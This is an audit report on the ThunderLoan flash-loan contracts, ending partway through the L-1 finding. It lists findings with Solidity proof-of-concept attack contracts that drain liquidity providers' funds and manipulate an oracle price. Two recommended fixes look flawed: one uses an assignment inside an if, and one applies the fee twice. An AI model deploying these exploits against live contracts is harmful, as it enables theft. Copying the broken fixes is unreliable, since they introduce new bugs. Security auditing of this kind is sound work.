 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1>ThunderLoan Audit Report</h1>
    <h3>Prepared by: Jack Landon</h3>
    </div>
</div>

</body>
</html>

Prepared by: [Jack Landon](https://sveltekit.io) on 2024-08-19
Lead Auditor:

- Jack Landon

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High Severity](#high-severity)
    - [\[H-1\] The `ThunderLoan::getCalculatedFee` function calculates the `fee` in `WETH`, when it's intended to calculate the fee in the units of the `token` parameter. This causes the `fee` value to be incorrect, and may charge a very different `fee` than expected when calling the `ThunderLoan::flashloan` function.](#h-1-the-thunderloangetcalculatedfee-function-calculates-the-fee-in-weth-when-its-intended-to-calculate-the-fee-in-the-units-of-the-token-parameter-this-causes-the-fee-value-to-be-incorrect-and-may-charge-a-very-different-fee-than-expected-when-calling-the-thunderloanflashloan-function)
    - [\[H-2\] The `ThunderLoan::deposit` function unneccessarily updates the `exchangeRate` in the `AssetToken` contract, which causes the expected redemption value to be incorrect, and therefore blocks people from redeeming their tokens.](#h-2-the-thunderloandeposit-function-unneccessarily-updates-the-exchangerate-in-the-assettoken-contract-which-causes-the-expected-redemption-value-to-be-incorrect-and-therefore-blocks-people-from-redeeming-their-tokens)
    - [\[H-3\] The check for success of a flash loan repayment in `ThunderLoan::flashloan` is exploitable, as an attacker can deposit redeemable value to the `ThunderLoan` contract to satisfy their repayment on a flash loan, and then withdraw it after the flash loan is repaid, meaning funds are stolen from other liquidity providers.](#h-3-the-check-for-success-of-a-flash-loan-repayment-in-thunderloanflashloan-is-exploitable-as-an-attacker-can-deposit-redeemable-value-to-the-thunderloan-contract-to-satisfy-their-repayment-on-a-flash-loan-and-then-withdraw-it-after-the-flash-loan-is-repaid-meaning-funds-are-stolen-from-other-liquidity-providers)
    - [\[H-4\] Storage Collision issue with the `ThunderLoanUpgraded` contract, which causes variables to have different values after an upgrade when it should be the same.](#h-4-storage-collision-issue-with-the-thunderloanupgraded-contract-which-causes-variables-to-have-different-values-after-an-upgrade-when-it-should-be-the-same)
  - [Medium Severity](#medium-severity)
    - [\[M-1\] Risk of Price Oracle Manipulation in the `ThunderLoan::getCalculatedFee` function, which causes the `fee` to be much smaller than expected.](#m-1-risk-of-price-oracle-manipulation-in-the-thunderloangetcalculatedfee-function-which-causes-the-fee-to-be-much-smaller-than-expected)
  - [Low Severity](#low-severity)
    - [\[L-1\] Failure to Initialize Risk: `ThunderLoan::initialize` can be front-run such that someone else can choose the `tswapAddress` before the deployer.](#l-1-failure-to-initialize-risk-thunderloaninitialize-can-be-front-run-such-that-someone-else-can-choose-the-tswapaddress-before-the-deployer)
  - [Gas Optimizations](#gas-optimizations)
    - [\[G-1\] The `AssetToken::updateExchangeRate` function has many unnecessary `storage` reads for the `AssetToken::s_exchangeRate` variable, causing gas inefficiency.](#g-1-the-assettokenupdateexchangerate-function-has-many-unnecessary-storage-reads-for-the-assettokens_exchangerate-variable-causing-gas-inefficiency)
  - [Informational](#informational)
    - [\[I-1\] Missing check for `address(0)` when setting `s_poolFactory` in the `OracleUpgradeable::__Oracle_init_unchained` function.](#i-1-missing-check-for-address0-when-setting-s_poolfactory-in-the-oracleupgradeable__oracle_init_unchained-function)
    - [\[I-2\] `public` functions not used internally could be marked `external` to improve gas efficiency and security.](#i-2-public-functions-not-used-internally-could-be-marked-external-to-improve-gas-efficiency-and-security)
    - [\[I-3\] Centralization Risk in the `ThunderLoan` and `ThunderLoanUpgraded` contracts mean that the owner can change the `poolFactory` address.](#i-3-centralization-risk-in-the-thunderloan-and-thunderloanupgraded-contracts-mean-that-the-owner-can-change-the-poolfactory-address)
    - [\[I-4\] Events are missing `indexed` flags, which help off-chain tools index events on the protocol.](#i-4-events-are-missing-indexed-flags-which-help-off-chain-tools-index-events-on-the-protocol)
    - [\[I-5\] Unused custom errors in the `ThunderLoan` and `ThunderLoanUpgraded` contracts could be removed to save gas and improve readability](#i-5-unused-custom-errors-in-the-thunderloan-and-thunderloanupgraded-contracts-could-be-removed-to-save-gas-and-improve-readability)
    - [\[I-6\] The `0.8.20` compiler has the `PUSH0` opcode, which is not supported by all chains - and Shanghai](#i-6-the-0820-compiler-has-the-push0-opcode-which-is-not-supported-by-all-chains---and-shanghai)
    - [\[I-7\] The `ThunderLoan` contract does not implement the `IThnunderLoan` interface.](#i-7-the-thunderloan-contract-does-not-implement-the-ithnunderloan-interface)
    - [\[I-8\] The `IThunderLoan::repay` function signature does not match the `ThunderLoan::repay` function signature.](#i-8-the-ithunderloanrepay-function-signature-does-not-match-the-thunderloanrepay-function-signature)
    - [\[I-9\] Unused import in the `IFlashLoanReceiver` interface could be removed to save gas and improve readability](#i-9-unused-import-in-the-iflashloanreceiver-interface-could-be-removed-to-save-gas-and-improve-readability)
    - [\[I-10\] Non-descriptive name for the `ThunderLoad::initialize` function parameter `tswapAddress`, which can cause confusion about what the parameter is.](#i-10-non-descriptive-name-for-the-thunderloadinitialize-function-parameter-tswapaddress-which-can-cause-confusion-about-what-the-parameter-is)
    - [\[I-11\] The `ThunderLoan::s_feePrecision` variable is a `private` `storage` variable, but it isn't changed in the contract, so it should be `immutable`.](#i-11-the-thunderloans_feeprecision-variable-is-a-private-storage-variable-but-it-isnt-changed-in-the-contract-so-it-should-be-immutable)
    - [\[I-12\] Various function with no natspec comments, which can cause confusion for developers who are trying to interact with the protocol and may cause them to incorrectly guess about what functions and parameters do.](#i-12-various-function-with-no-natspec-comments-which-can-cause-confusion-for-developers-who-are-trying-to-interact-with-the-protocol-and-may-cause-them-to-incorrectly-guess-about-what-functions-and-parameters-do)
    - [\[I-13\] An Event should be emitted when the `ThunderLoan::s_flashLoanFee` variable is updated from the `ThunderLoan::updateFlashLoanFee` function, to provide more context to off-chain tools.](#i-13-an-event-should-be-emitted-when-the-thunderloans_flashloanfee-variable-is-updated-from-the-thunderloanupdateflashloanfee-function-to-provide-more-context-to-off-chain-tools)

# Protocol Summary

The ⚡️ThunderLoan⚡️ protocol is meant to do the following:

1. Give users a way to create flash loans
2. Give liquidity providers a way to earn money off their capital

Liquidity providers can `deposit` assets into `ThunderLoan` and be given `AssetTokens` in return. These `AssetTokens` gain interest over time depending on how often people take out flash loans!

What is a flash loan?

A flash loan is a loan that exists for exactly 1 transaction. A user can borrow any amount of assets from the protocol as long as they pay it back in the same transaction. If they don't pay it back, the transaction reverts and the loan is cancelled.

Users additionally have to pay a small fee to the protocol depending on how much money they borrow. To calculate the fee, we're using the famous on-chain TSwap price oracle.

We are planning to upgrade from the current `ThunderLoan` contract to the `ThunderLoanUpgraded` contract. Please include this upgrade in scope of a security review.

_ThunderLoan is a flash loan protocol based on [Aave](https://aave.com/) and [Compound](https://compound.finance/)._

You can learn more about how [Aave works](https://www.youtube.com/watch?v=dTCwssZ116A) at a high level from [this video](https://www.youtube.com/watch?v=dTCwssZ116A).

# Disclaimer

Jack Landon makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scope

- Commit Hash: 8803f851f6b37e99eab2e94b4690c8b70e26b3f6
- In Scope:

```
#-- interfaces
|   #-- IFlashLoanReceiver.sol
|   #-- IPoolFactory.sol
|   #-- ITSwapPool.sol
|   #-- IThunderLoan.sol
#-- protocol
|   #-- AssetToken.sol
|   #-- OracleUpgradeable.sol
|   #-- ThunderLoan.sol
#-- upgradedProtocol
    #-- ThunderLoanUpgraded.sol
```

- Solc Version: 0.8.20
- Chain(s) to deploy contract to: Ethereum
- ERC20s:
  - USDC
  - DAI
  - LINK
  - WETH

## Roles

- Owner: The owner of the protocol who has the power to upgrade the implementation.
- Liquidity Provider: A user who deposits assets into the protocol to earn interest.
- User: A user who takes out flash loans from the protocol.

# Executive Summary

Most of the findings in this review were informational, however there are some nasty high severity issues that need to be addressed.

Firstly, if the protocol was planning the upgrade the `ThunderLoan` contract to `ThunderLoanUpgraded`, there is a storage collision issue which needs to be addressed (H-4).

Outside of that, the main issues were in the `ThunderLoan` contract. The most devastating exploit would be how to correctly check if a flash load was repaid, ignoring any `deposits` made to the `ThunderLoan` contract (H-3).

Other issues were related to relying on `TSwap` for pricing, and small errors in how the fees are calculated, or updating the `AssetToken` exchange rate when it doesn't need to be. These issues are simple fixes however.

The greatest consideration needs to be done with how fees are calculated by referencing some oracle [M-1].
Perhaps integrating a Chainlink Price Feed is the safest way to ensure the price is accurate.

Other than these issues, the protocol is sound and shouldn't have a problem delivering on it's intentions.

## Issues found

| Severity      | Number of Issues Found |
| ------------- | ---------------------- |
| HIGH          | 4                      |
| MEDIUM        | 1                      |
| LOW           | 1                      |
| INFORMATIONAL | 13                     |
| Gas           | 1                      |
| TOTAL         | 20                     |

# Findings

## High Severity

### [H-1] The `ThunderLoan::getCalculatedFee` function calculates the `fee` in `WETH`, when it's intended to calculate the fee in the units of the `token` parameter. This causes the `fee` value to be incorrect, and may charge a very different `fee` than expected when calling the `ThunderLoan::flashloan` function.

**Description:**
When someone executes a flash loan from `ThunderLoan::flashloan`, the function calls the `ThunderLoan::getCalculatedFee` function to calculate the fee that will be charged for the flash loan.

This value is used to determine whether the loaner has repaid the amount loaned back, _plus_ the calculated fee.

The problem is that the final check in the `flashloan` function is the following:

```javascript
if (endingBalance < startingBalance + fee) {
    revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
}
```

Both the `startingBalance` and `endingBalance` are in the units of the `token` parameter, however the `fee` is calculated in `WETH` in the `ThunderLoan::getCalculatedFee` function.

We can prove this by looking at how fee is calculated in the `ThunderLoan::getCalculatedFee` function:

```javascript
    function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
@>      uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }
```

The `amount` is being multiplied by `getPriceInWeth`, which converts the units to `weth`, which is then processed and returned to the `flashloan` function, and assigned to the `fee` value:

```javascript
uint256 fee = getCalculatedFee(token, amount);
```

**Impact:**
The impact of this means that the `fee` value will vary quite a bit from what is expected, especially when the `decimals` differ from the `weth` decimals.

For example, if `USDC` has 6 decimals, and `WETH` has 18 decimals, then the `fee` will be massively more than what is expected, to the point where the `flashloan` function will almost certainly revert for every `USDC` flashloan, unless the `FlashLoanReceiver` contract has lots of `USDC` in it.

This incorrect `fee` amount will happen for every flashloan.

**Recommended Mitigation:**
In the `ThunderLoan::getCalculatedFee` function, change the `getPriceInWeth` function to `s_flashLoanFee`:

```diff
    function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
-       uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
+       uint256 valueOfBorrowedToken = (amount * s_flashLoanFee) / s_feePrecision;
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }
```

This will multiply the `amount` by the `s_flashLoanFee` value, and then scale it down with the `s_feePrecision` value.

This means that the `OracleUpgradeable::getPriceInWeth` isn't necessary, and could therefore be removed:

```diff
-   function getPriceInWeth(address token) public view returns (uint256) {
-       address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
-       return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
-   }
```

The entire `ITSwapPool` contract could also be removed, as the `OracleUpgradeable::getPriceInWeth` was the only function that used it, which is now removed:

```diff
-   // SPDX-License-Identifier: AGPL-3.0-only
-   pragma solidity 0.8.20;
-
-   interface ITSwapPool {
-       function getPriceOfOnePoolTokenInWeth() external view returns (uint256);
-   }
```

The entire `IPoolFactory` contract could also be removed, as the `OracleUpgradeable::getPriceInWeth` was the only function that used it, which is now removed:

```diff
-   // SPDX-License-Identifier: AGPL-3.0-only
-   pragma solidity 0.8.20;
-
-   interface IPoolFactory {
-       function getPool(address tokenAddress) external view returns (address);
-   }
```

### [H-2] The `ThunderLoan::deposit` function unneccessarily updates the `exchangeRate` in the `AssetToken` contract, which causes the expected redemption value to be incorrect, and therefore blocks people from redeeming their tokens.

**Description:**
The `AssetToken::updateExchangeRate` function should _only_ be called from the `ThunderLoan::flashloan` function, as fees are being added to the `AssetToken` contract, and the `exchangeRate` should be updated to reflect this.

This is the _only_ way fees are made.

The `ThunderLoan::deposit` function calls the `AssetToken::updateExchangeRate` function:

<details>
<summary>Code</summary>

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

</details>

This means that the `AssetToken` thinks it has more fees than it really does, so redemptions are blocked and further updates to the `AssetToken::s_exchangeRate` are incorrect.

**Impact:**
Incorrectly calling this function will cause the `AssetToken::s_exchangeRate` storage variable to be incorrect, and therefore the `AssetToken::getUnderlyingAmount` function will return an incorrect value, which will cause the `ThunderLoan::redeem` function to revert unless the user specified the exact amount of tokens they want to redeem.

**Proof of Concept:**
In The `ThunderLoanTest.t.sol`, write a test where:

1. A liquidity provider provides deposit,
2. A flash loan is executed,
3. The liquidity provider tries to redeem their tokens + the flash loan fees
4. The `redeem` function reverts.

<details>
<summary>Proof Of Code</summary>

```javascript
    function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```

</details>

This will fail, and we can see that the `redeem` function reverts and `ERC20InsufficientBalance` error.
The logic is sound, and we can see that the `transfer` function is trying to transfer `1003300900000000000000` tokens, when it only has:

1. The `1000000000000000000000` from the deposit, and
2. The `300000000000000000` from the fee,
3. However, it's attempting to pull out an additional `300900000000000000`.

Now, remove the exchange rate update in the `ThunderLoan::deposit`, as shown in the `Recommended Change` below, and the test will pass.

**Recommended Change:**
In the `ThunderLoan:deposit` function, remove the line for the `calculatedFee`, and also the line to update the exchange rate in the `AssetToken`.

```diff
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
```

### [H-3] The check for success of a flash loan repayment in `ThunderLoan::flashloan` is exploitable, as an attacker can deposit redeemable value to the `ThunderLoan` contract to satisfy their repayment on a flash loan, and then withdraw it after the flash loan is repaid, meaning funds are stolen from other liquidity providers.

**Description:**
Inside the `ThunderLoan::flashloan` function, the only checks for the success of the flash loan repayment are the following:

```javascript
function flashloan(...) {
@>      uint256 startingBalance = IERC20(token).balanceOf(address(assetToken));
        .
        // Do Flashloan
        .
@>      uint256 endingBalance = token.balanceOf(address(assetToken));
        if (endingBalance < startingBalance + fee) {
            revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
        }
    }
```

Since the function _only_ checks the `startingBalance` and `endingbalance`, an attacker can do anything to manipulate these values in between.

This means that they could create a malicious flash loan receiver contract which makes a deposit to `ThunderLoan`.

Since the `ThunderLoan::deposit` function allows for the depositor to later redeem their tokens, the attacker can deposit the exact amount of tokens they need to repay the flash loan, and then redeem them after the flash loan is repaid.

All the while, the `endingBalance` > `startingBalance` + `fee`, because they made the deposit.

Then after the flash loan is successfull, they can redeem their tokens, and steal the funds from the other liquidity providers.

**Impact:**
This is a critical vulnerability as it allows for attackers to steal the funds from other liquidity providers.

**Proof of Concept:**

1. Create a malicious Flash loan receiver contract, which receives a flash loan, and then calls `ThunderLoan::deposit` to deposit the exact amount of tokens needed to repay the flash loan.
2. Add enough funds to the malicious flash loan receiver contract to repay the flash loan.
3. Call the `ThunderLoan::flashloan` function with the malicious flash loan as the `receiver` parameter.
4. After the flash loan is repaid, call the `redeem` function on the malicious flash loan receiver contract to redeem the tokens.

In the `ThunderLoanTest.t.sol`, create a malicious flash loan receiver contract, which has 2 functions:

1. `executeOperation` to execute the flash loan, and
2. `redeemMoney` to redeem the tokens after the flash loan is settled.

<details>
<summary>DepositOverRepay Contract</summary>

```javascript
contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    address s_token;

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool) {
            assetToken = thunderLoan.getAssetFromToken(IERC20(token));
            s_token = token;
            IERC20(token).approve(address(thunderLoan), amount + fee);
            thunderLoan.deposit(IERC20(token), amount + fee);
            return true;
        }

    function redeemMoney() public {
        uint256 amount = IERC20(assetToken).balanceOf(address(this));
        thunderLoan.redeem(IERC20(s_token), amount);
    }
}
```

</details>

Then in `ThunderLoan.t.sol`, create a test where the `DepositOverRepay` contract is used to execute a flash loan, and then redeem the tokens after the flash loan is repaid.

At the end, assert than the balance of the malicious contract is greater than the `amountBorrowed` + `fee`.

<details>
<summary>Proof Of Code</summary>

```javascript
function testUseDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();

        assert(tokenA.balanceOf(address(dor)) > amountToBorrow + fee);
    }
```

</details>

**Recommended Mitigation:**
Consider a new way to check the success of the flash loan repayment, such as checking the `flashLoanReceiver` contract to see if the flash loan was repaid.

Alternatively, add a check for `s_currentlyFlashLoaning` in the `ThunderLoan::deposit` function, and revert if the contract is currently flash loaning.

```diff
+   error ThunderLoan__CurrentlyFlashLoaning();
    .
    .
    .
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
+       if (s_currentlyFlashLoaning[token] = true) {
+           revert ThunderLoan__CurrentlyFlashLoaning();
+       }
        .
        .
        .
    }
```

This will prevent a deposit from being made while a flash loan is being executed, and prevent the attacker from being able to withdraw funds later.

### [H-4] Storage Collision issue with the `ThunderLoanUpgraded` contract, which causes variables to have different values after an upgrade when it should be the same.

**Description:**
If the owner of the `ThunderLoan` contract calls the `ThunderLoan::upgradeToAndCall` function and sets the upgraded contract to be the `ThunderLoanUpgraded` contract, the `s_flashLoanFee` fee will have a different value in the `ThunderLoanUpgraded` contract than it does in the `ThunderLoan` contract.

This is because in the upgraded contract, it's assigned to a new storage slot (it takes position 2 now, instead of 3).

**Impact:**
This problem is only an issue _if_ the protocol is upgraded to the `ThunderLoanUpgraded` implementation of the contract.
It will cause major issues, as some of the storage variables will have different values than they did in the previous contract.

This can wildly alter the fee amounts, and other important values in the protocol.

Values like:

- `s_flashLoanFee`,
- `s_feePrecision`, and
- `s_currentlyFlashLoaning`

will be different.
If `s_currentlyFlashLoaning` changes, it could cause the protocol to think it's in a flash loan, when it's not and brick any further flash loans.

If `s_flashLoanFee` or `s_feePrecision` changes, it could cause the protocol to charge different fees than expected.

**Proof of Concept:**
This storage collision can be demonstrated by writing a test in `ThunderLoanTest.t.sol`, where:

1. The `s_flashLoanFee` value is caputured from the `ThunderLoan` contract by calling `ThunderLoan::getFee`.
2. Deploy the new implementation as the `ThunderLoanUpgraded` contract.
3. Upgrade the proxy `ThunderLoan` contract to now be the `ThunderLoanUpgraded` contract.
4. Caputure the `s_flashLoanFee` value from the `ThunderLoanUpgraded` contract by calling `ThunderLoanUpgraded::getFee`.
5. Assert that the fee value after upgrading is _different_ than before.

<details>
<summary>Proof Of Code</summary>

```javascript
    import {ThunderLoanUpgraded} from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
    .
    .
    .
    function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console.log("Fee Before: ", feeBeforeUpgrade);
        console.log("Fee After: ", feeAfterUpgrade);

        assertNotEq(feeBeforeUpgrade, feeAfterUpgrade);
    }
```

</details>

And we can see from the logs that the Fees are different:
Fee Before: 3000000000000000
Fee After: 1000000000000000000

You can also see the storage layout difference by running `forge inspect ThunderLoan storage`, and then `forge inspect ThunderLoanUpgraded storage`, and checking each of the slots on the storage variables.

**Recommended Mitigation:**
When upgrading contracts, it's important to make sure the storage variables in the upgraded contract occupy the _same_ storage slots as they did in the previous contract.

Be mindful that changing `storage` variables to `constant` or `immutable` will change the storage slot of the variable as well.
When a variable is `constant` or `immutable`, it won't have a storage slot, and will rather be baked into the contract's bytecode.
If this is the case, it may be best to add a dead storage variable in it's place so as to not change the storage slot of the proceeding variables.

```diff
-   uint256 private s_flashLoanFee; // 0.3% ETH fee
-   uint256 public constant FEE_PRECISION = 1e18;
+   uint256 private s_blank;
+   uint256 private s_flashLoanFee; // 0.3% ETH fee
+   uint256 public constant FEE_PRECISION = 1e18;
```

## Medium Severity

### [M-1] Risk of Price Oracle Manipulation in the `ThunderLoan::getCalculatedFee` function, which causes the `fee` to be much smaller than expected.

**Description:**
When using the price of a token to calculate important values, it's important the the price is not able to be easily changed over a very short time (e.g. a block).

When using liquidity pools, a price can be quickly altered to the benefit of an attacker, where they can utilize tools like flash loans to dramatically change the state of a liquidity pool (thus changing the price), using the new price to their advantage (getting cheap fees), and then the restoring the pool to its original state.

In the `ThunderLoan` protocol, the `ThunderLoan::getCalculatedFee` function uses the `TSwap` `getPriceInWeth` function to determine the `fee` a flashloaner will pay.

```javascript
    function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
@>      uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }
```

If the attack can manipulate the price of the token, they can get a flashloan for a much smaller fee than expected.

**Impact:**
The fee paid to the protocol will be much smaller than expected, and attackers can execute flashloans with smaller fees than the protocol intends.

**Proof of Concept:**
In the `ThunderLoanTest.t.sol`, create a mock malicious Flash loan receiver contract, which will call 2 flashloans from the `ThunderLoan` contract.

- The first flashloan will manipulate the price of the token to be much lower than expected.
- The second flashloan will execute a flashloan with the manipulated price.

<details>
<summary>MaliciousFlashLoanReceiver Contract</summary>

```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    BuffMockTSwap tswapPool;
    ThunderLoan thunderLoan;
    address repayAddress;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        attacked = false;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool) {
            if (!attacked) {
                // 1. Swap TokenA borrow for WETH
                // 2. Take out ANOTHER flash loan to show the difference
                feeOne = fee;
                attacked = true;

                // Swap TokenA for WETH
                uint256 amountToSwap = 50e18;
                uint256 tokenAReserves = 100e18; // We know this from the test
                uint256 wethReserves = 100e18; // We know this from the test
                uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(amountToSwap, tokenAReserves, wethReserves);
                IERC20(token).approve(address(tswapPool), amountToSwap);
                // Tanks the price
                tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(amountToSwap, wethBought, block.timestamp);
                // Now call a second flash loan
                thunderLoan.flashloan(address(this), IERC20(token), amount, "");
                // repay the first loan
                IERC20(token).approve(address(thunderLoan), amount + fee);
                // thunderLoan.repay(IERC20(token), amount + fee);
                IERC20(token).transfer(repayAddress, amount + fee);
            } else {
                // Calculate the fee and repay
                feeTwo = fee;
                // repay the second loan
                IERC20(token).approve(address(thunderLoan), amount + fee);
                // thunderLoan.repay(IERC20(token), amount + fee);
                IERC20(token).transfer(repayAddress, amount + fee);
            }
            return true;
        }
}
```

</details>

Now, set up a test in the `ThunderLoanTest.t.sol` contract, where the `MaliciousFlashLoanReceiver` contract is used to execute the flashloans.

<details>
<summary>Proof Of Code</summary>

```javascript
    function testOracleManipulation() public {
        // Swap it on the dex, tanking the price of tokenA > 150 TokenA : ~80 WETH
        // Take out another flash loan of 50 TokenA (and see how much cheaper it is)

        // 1. Setup contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");

        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Create a TSwap Dex between WETH/TokenA
        address tswapPool = pf.createPool(address(tokenA));

        thunderLoan = ThunderLoan(address(proxy));

        thunderLoan.initialize(address(pf));

        // 2. Fund TSwap
        uint256 amountToDepositToTSwap = 100e18;
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, amountToDepositToTSwap);
        tokenA.approve(address(tswapPool), amountToDepositToTSwap);
        weth.mint(liquidityProvider, amountToDepositToTSwap);
        weth.approve(address(tswapPool), amountToDepositToTSwap);

        BuffMockTSwap(tswapPool).deposit(amountToDepositToTSwap, amountToDepositToTSwap, amountToDepositToTSwap, block.timestamp);
        vm.stopPrank();
        // Ratio 100 WETH & 100 TokenA
        // Price 1:1

        // 3. Fund ThunderLoan
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);

        vm.startPrank(liquidityProvider);
        uint256 amountToDepositToThunderLoan = 1000e18;
        tokenA.mint(liquidityProvider, amountToDepositToThunderLoan);
        tokenA.approve(address(thunderLoan), amountToDepositToThunderLoan);
        thunderLoan.deposit(tokenA, amountToDepositToThunderLoan);
        vm.stopPrank();

        // In TSwap: 100 WETH & 100 TokenA in TSwapPool
        // In ThunderLoan: 1000 TokenA

        // 4. We are going to take out 2 flash Loans
        //      a. To Nuke The Price of the WETH/TokenA on TSwap
        //      b. To show that dong so greatly reduces the fees we pay on ThunderLoan

        // Take out a flash loan of 50 tokenA
        uint256 loanAmount = 100e18;
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, loanAmount);
        console.log("Normal fee is: ", normalFeeCost);
        // Normal fee is:  0.296147410319118389

        uint256 amountToBorrow = 50e18; // We are going to do this twice
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA)));

        vm.startPrank(user);
        uint256 amountToMintToCoverFee = 100e18;
        tokenA.mint(address(flr), amountToMintToCoverFee);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console.log("Attack Fee is: ", attackFee);
        assert(attackFee < normalFeeCost);
    }
```

</details>

When running the test, we can see the following logs:
Normal fee is: 296147410319118389
Attack Fee is: 214167600932190305

So, when the contract is attacked with the much lower rate, the fee is much lower than expected amount.

**Recommended Mitigation:**
Use a different price oracle.
For popular tokens, use a [ChainLink price feed](https://docs.chain.link/data-feeds/price-feeds), or a [Uniswap TWAP oracle](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/oracles).

## Low Severity

### [L-1] Failure to Initialize Risk: `ThunderLoan::initialize` can be front-run such that someone else can choose the `tswapAddress` before the deployer.

**Description:**
If the `ThunderLoan` contract is deployed and the `initialize` function isn't called, someone else can call the `initialize` function with their own `tswapAddress` before the deployer does.

This can cause an issue with the oracle as the `OracleUpgradeable` function uses this value in the `OracleUpgradeable::getPriceInWeth` function:

```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

**Impact:**
